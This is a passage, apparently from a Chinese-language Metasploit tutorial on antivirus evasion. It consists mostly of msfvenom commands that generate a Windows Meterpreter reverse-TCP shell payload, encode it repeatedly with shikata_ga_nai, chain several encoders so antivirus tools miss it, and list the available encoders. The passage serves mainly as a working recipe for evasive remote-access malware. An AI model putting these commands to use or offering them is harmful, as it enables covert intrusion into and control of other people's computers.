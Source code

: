 ![免杀](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/进阶篇/图片21.png)  
进行更深层的免杀操作：
对恶意荷载进行编码：
msfvenom -p windows/meterpreter/reverse_tcp LPORT=(自定义) LHOST=(自定义) -e x86/shikata_ga_nai -i (编译次数) -f py >输出路径
多种编码格式多次编译：
msfvenom -p windows/meterpreter/reverse_tcp LPORT=(自定义) LHOST=(自定义) -e x86/shikata_ga_nai -i (编译次数) -f raw|msfvenom -e (另一种编码格式）-i (编译次数) -f py >输出路径
输入查看可用编译方式，有的不适用windows
msfvenom –l –encoders  
